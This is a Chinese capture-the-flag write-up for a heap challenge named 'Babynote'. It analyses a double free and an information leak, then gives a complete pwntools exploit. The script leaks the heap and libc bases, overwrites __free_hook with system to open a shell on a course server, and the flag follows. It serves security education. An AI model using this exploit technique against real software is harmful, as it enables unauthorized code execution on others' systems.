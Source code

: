 ```yaml
---
tags: 2020 程式安全
---
```

# HWB
## Babynote
### 分析
* 直接拉進ida裡面分析會看到這題是heap的菜單題  
![](https://i.imgur.com/Gkbu2dD.png)
* 在create的時候會限制create的大小要在0x18到0x78之間也就是fastbin的大小然後create完會把used設成1並且總共最多只能create 10個note
![](https://i.imgur.com/7fIjjXi.png)
* 在show的時候會限制那個note裡面要有東西而且used要是1才能夠show
![](https://i.imgur.com/Ninq2Z0.png)
* edit的時候note裡面有東西然後used設成1的才能夠被edit  
![](https://i.imgur.com/yuW2XNK.png)
* 最後是delete他這邊檢查note裡面是不是有東西然後就可以delete掉並且把used設成0
![](https://i.imgur.com/qWWQqIU.png)
### 漏洞
* 在delete的時候free完沒有對used做檢查所以造成有double free的漏洞
* 在delete的時候free完沒有對裡面的內容清空造成information leak
### Exploit
* 這個版本是libc 2.31有tcache所以free掉之後又malloc會拿到同一塊的記憶體
* 因為有double free的漏洞再加上tcache的關係就可以變成有任意寫的漏洞
* 因為tcache被free掉之後上面會記錄heap的位置所以就利用double free來leak出heap base的位置
* 有heap的位置之後就能夠知道之後被malloc出來的chunk會落在哪裡就可以利用tcache造成的任意寫入漏洞來偽造chunk的header因為如果chunk的大小不是tcache的大小他就不會進到tcache裡面會進到unsorted bin
* 當chunk進到unsorted bin裡面之後chunk上面會main arena的位置這個在libc裡面所以就可以偽造chunk header size來讓chunk進到unsorted bin來leak出libc的位置
* 當拿到libc的位置之後就可以知道free_hook的位置如果在free_hook上面寫上system的位置在呼叫free的時候就會變成是呼叫system
* 然後因為只要被free會帶一個參數就是chunk的位置所以如果被free掉的那個chunk上面有`/bin/sh`這樣去呼叫free的時候就會變成system('/bin/sh')成功開啟一個shell
```python=
from pwn import *

# p = process('./babynote')
p = remote('140.112.31.97', 30203)
elf = ELF('./babynote')
libc = elf.libc

def create(size, content):
    p.sendafter('>', '1')
    p.sendafter('size : ', str(size))
    p.sendafter('Content : ', content)

def show(index):
    p.sendafter('>', '2')
    p.sendafter('index : ', str(index))

def edit(index, content):
    p.sendafter('>', '3')
    p.sendafter('index : ', str(index))
    p.sendafter('Content : ', content)

def delete(index):
    p.sendafter('>', '4')
    p.sendafter('index : ', str(index))

# double free tcache to leak heap base
create(0x18, 'a')   # 0
delete(0)
create(0x18, 'a')   # 1
delete(0)
edit(1, p64(0)+p64(0))
delete(0)
show(1)
heap = u64(p.recvline().strip().ljust(8, b'\x00')) - 0x2a0
success('heap = 0x%x', heap)

# write fake chunk size to make fastbin look like unsorted bin and use double free fake unsorted bin to leak libc base
create(0x78, 'a')   # 2
delete(2)
create(0x78, 'a') # 3
create(0x78, p64(0)*9+p64(0x21)+p64(0)*3+p64(0x21)) # 4

edit(1, p64(heap+0x2b0)+p64(0))
create(0x18, 'a')   # 5
create(0x18, p64(0)+p64(0xd1)) # 6
for i in range(7):
    delete(2)
    edit(3, p64(0)*2)
delete(2)
show(3)
libc_base = u64(p.recvline().strip().ljust(8, b'\x00')) - 0x1ebbe0
success('libc base = 0x%x', libc_base)

# use double free to overwrite __free_hook to system
free_hook = libc_base + libc.sym['__free_hook']
system = libc_base + libc.sym['system']
delete(0)
edit(1, p64(0)+p64(0))
delete(0)
edit(1, p64(free_hook-8)+p64(0))
create(0x18, 'a')   # 7
create(0x18, b'/bin/sh\x00'+p64(system))   # 8
delete(8)

p.interactive()
```
>FLAG{4pp4rently_bab1es_can_wr1t3_n0t3s}
## Childnote